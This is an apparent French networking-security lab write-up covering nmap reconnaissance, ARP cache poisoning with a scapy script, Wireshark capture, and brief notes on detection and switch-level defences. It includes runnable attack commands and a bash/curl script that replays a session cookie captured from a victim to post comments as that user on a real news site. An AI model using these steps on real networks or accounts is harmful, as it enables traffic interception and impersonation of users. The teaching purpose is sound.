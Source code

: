 ```yaml
---
title: "TDM : Sécurité des réseaux"
date: 2019-02-06
categories: ['Sécurité', 'TD machine']
tags : ['ARP spoofing', 'MITM', 'réseaux', 'kali']
---
```


L'objectif de ce TD est de prendre en main des outils pour mettre en place une
attaque du type *Man In The Middle*. Nous allons utiliser `nmap`, `wireshark`,
`SSLStrip`, `DNS2Proxy`.

La pierre angulaire de notre attaque est l'*ARP spoofing*, notre attaque repose
ici sur le réseau local où est connecté notre victime. Le principe est simple :
l'empoisonnement du cache *ARP* de notre victime en l'inondant d'annonce.

## Découverte réseau : nmap

Avant de passer à l'attaque, il est nécessaire de cartographier le réseau sur
lequel nous sommes connectés. L'outil tout indiqué pour ce travail est `nmap`.

### les hôtes connectes

Nous allons commencer par essayer de découvrir les hôtes connectés sur notre
réseau local avec l'argument `-sP` suivi de l'adresse réseau à analyser :

```
nmap -sP 192.168.3.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 21:21 CET
Nmap scan report for 192.168.0.113
Host is up (0.040s latency).
Nmap scan report for 192.168.3.126
Host is up (0.000093s latency).
Nmap scan report for 192.168.3.230
Host is up (0.026s latency).
Nmap scan report for 192.168.3.240
Host is up (0.013s latency).
Nmap scan report for 192.168.3.241
Host is up (0.027s latency).
Nmap done: 256 IP addresses (10 hosts up) scanned in 6.47 seconds
```

Nmap affiche toutes les machines qu'il a trouvé sur le réseau. Il utilise le
ping ARP pour chercher les machines.

### scanner les ports.

Il est possible de scanner les ports sur une ou une machine ou un réseau
(notation CIDR). Dans l'exemple suivant, nous allons scanner une machine du
réseau pour trouver les ports TCP ouverts :

```
nmap -sS 192.168.3.230
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 21:30 CET
Nmap scan report for 192.168.3.230
Host is up (0.0032s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
MAC Address: XX:XX:XX:XX:XX:XX (HAL dreamer machine)

Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
```

Il est possible de spécifier les ports à tester avec l'argument `-p` suivi de un
ou plusieurs ports (séparés par un virgule), et afficher seulement les machines
dont ce(s) port(s) sont ouverts avec l'argument `--open`.

### Obtenir plus d'informations

Nmap permet aussi d'en apprendre plus un les machines connectées comme le type
de services tournant, les version de serveurs web et autres informations utiles
:

```
nmap -sC 192.168.0.230
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 22:25 CET
Nmap scan report for 192.168.0.230
Host is up (0.0025s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 7f:bf:b2:cf:47:7e:19:b7:95:4c:64:27:bb:0f:e2:c9 (RSA)
|   256 6c:ab:29:6c:3f:ab:00:dc:59:5f:a7:d7:d3:c9:ac:fe (ECDSA)
|_  256 7a:f5:d4:52:e9:c8:06:0e:6d:af:e8:8d:2e:57:d6:0b (ED25519)
111/tcp  open  rpcbind
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|_  100000  2,3,4        111/udp  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
|_http-title: Site doesn't have a title.
MAC Address: C8:9C:DC:2A:6A:39 (Elitegroup Computer Systems)

Host script results:
|_nbstat: NetBIOS name: MEDIACENTER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)                                                            
| smb2-security-mode:
|   2.10:
|_    Message signing enabled but not required
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 1.39 seconds
```

Nous retrouvons ici beaucoup d'informations mais il est possible d'en apprendre
plus en rajoutant les paramètres `-A -v`.

## ARP cache poisoning

C'est là que commencent les choses sérieuses : nous allons empoisonner le cache
APR de notre victime et ainsi faire passer l'ensemble de son trafic vers notre
machine.

Nous utiliserons pour cela un [script python](./files/mitm_arp). Il est
nécessaire d'installer `python2-scapy` (soit dans un `virtualenv` soir par le
gestionnaire de paquets).

```
python2 mitm_arp 192.168.3.254 -t 192.168.3.230 -r
[...]
```

 - La première adresse IP est celle de notre routeur.
 - `-t <ip>` est l'adresse IP de notre victime
 - `-r` permet de spécifier au script de fonctionner dans les deux sens
     (renvoyer les données reçu du routeur pour notre victime à cette dernière)

Il ne fait pas oublier d'activer le `forward` de paquets sur notre machine :

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Mais aussi désactiver l'annonce de redirection par paquets ICMP redirect: 

```
echo 0 | tee /proc/sys/net/ipv4/conf/*/send_redirects
```

### Détecter l'empoisonnement

Il est possible de détecter un empoisonnement du cache ARP avec la commande
`traceroute`. En effet celle ci laisse apparaitre un saut supplémentaire entre
la machine de la victime et la passerelle (notre machine attaquant)

### Se prémunir

Il est possible, au niveau d'un ordinateur personnel d'écrire un script
vérifiant les changements effectués dans le cache ou l'ajout d'un saut dans un
`traceroute`.

Au niveau des switches, il existe des protections comme le DPA pour *Deep Arp
Inspection* ou encore l'*ARP Snooping*

## Analyser les trames

Une fois la machine de notre victime compromise, nous pouvons commencer
l'analyse du trafic réseau pour en extraire des informations utiles. Le
logiciel phare dans ce domaine est [wireshark](https://www.wireshark.org/). Il
permet d'inspecter en profondeur les trames réseaux, de filtrer les résultats
et bien d'autres choses.

Ici l'analyse en profondeur des paquets ne pourra se faire seulement lorsque la
connexion n'est pas chiffrée (pour l'instant). 

### usurpation d'identité su charentelibre.fr

Ce site propose une navigation en HTTP (dans TLS), notre victime est inscrite et
poste un commentaire. L'ensemble du trafic est disponible sur wireshark. 

#### Récupération des éléments

Partons à la recherche d'une requête `POST`, déplions la trame pour obtenir
l'ensemble des informations et récupérons, dans les entêtes, le cookie
d'identification, le `Referer` et le champ `data`

#### Création d'un script pour poster des commentaires

Maintenant que nous avons les informations utiles, nous allons utiliser lers
informations précédemment récupérées

Voici le script créé pour l'occasion : 

```bash
#!/bin/bash

USERAGENT="Mozilla/5.0 (X11; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0"

COOKIE="charlib_SESSION=267822d64d4226ccd6ee9a93d9cda6e2; userinfo=%7B%22id_sso%22%3A%2264145%22%2C%22logindate%22%3A1549461426%7D; charlib_FacebookConnect_1=%7B%22FacebookConnect%22%3Anull%7D; PHPSESSID=660cfbd1e4adb3e6029e4699ce7a299c; charlib_SSO_1=%7B%22Infos%22%3A%7B%22id_sso%22%3A%2264145%22%2C%22civilite%22%3Anull%2C%22nom%22%3A%22%22%2C%22prenom%22%3A%22%22%2C%22mail%22%3A%22lipsamepso%40ezehe.com%22%2C%22societe%22%3Anull%2C%22insee%22%3Anull%2C%22pseudo%22%3A%22Ano64145%22%2C%22type_compte%22%3A%22U%22%2C%22statut_mail_confirme%22%3A%222%22%2C%22check_string%22%3A%22dfb619ebcb701a68bc1f88a7e3cf0b02%22%7D%7D"

REFERER="http://www.charentelibre.fr/2019/02/06/epidemie-de-grippe-la-nouvelle-aquitaine-region-la-plus-touchee-deja-plus-de-1-000-morts-en-france,3383998.php"

URL="http://profil.charentelibre.fr/remote/reagir_commentaire_poster.php"

DATA="jsonpCallback=var+send%3Dfunction%28msg%29%7B+window.top.postMessage%28msg%2C+%22*%22%29%7D%3B+send&info_id=3383998&info_url=%2F2019%2F02%2F06%2Fepidemie-de-grippe-la-nouvelle-aquitaine-region-la-plus-touchee-deja-plus-de-1-000-morts-en-france%2C3383998.php&reag_date=20190206&info_reagir=1"

BASEENC=$(echo "$@" | base64)
echo "send : $BASEENC"

curl -X POST --data "${DATA}" --data-urlencode "reagtxt=${BASEENC}" --header "User-Agent:${USERAGENT}" --header "Cookie:${COOKIE}" --header "Referer:${REFERER}" ${URL}

echo ""
exit $?
```

Les commentaires pour le site charentelibre.fr sont envoyés encodés en base64
dans la variable `reagtxt`, le script encode donc tout ce qui est passé en
paramètre puis `curl` encode le tout avant de l'envoyer avec `--data-urlencode`

## Le cas HTTPS

Capturer, analyser et forger des requêtes HTTP est simple lorsque le trafic
passe en clair. Dès qu'une couche de chiffrement rentre en jeu, tout devient
bien plus compliqué.

Dans le cas du HTTPS, nous pouvons compter sur deux logiciels complémentaires :
[SSLStrip2](https://github.com/byt3bl33d3r/sslstrip2) et [DNS2Proxy](https://github.com/LeonardoNve/dns2proxy)

